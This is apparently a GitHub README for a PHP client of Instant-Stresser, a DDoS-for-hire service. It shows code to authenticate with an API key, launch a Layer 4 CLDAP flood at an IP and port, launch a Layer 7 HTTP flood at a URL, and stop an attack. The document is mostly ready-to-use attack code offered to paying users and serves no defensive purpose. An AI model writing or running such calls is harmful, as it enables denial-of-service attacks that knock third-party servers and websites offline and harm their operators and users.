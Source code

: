 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'InstantStresserApi.php';
// UserID and API Key generated from API Manager website.
$api = new InstantStresser\InstantStresserApi("UserID", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "CLDAP", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stop("1.1.1.1");
echo $response; // Get API response.
```
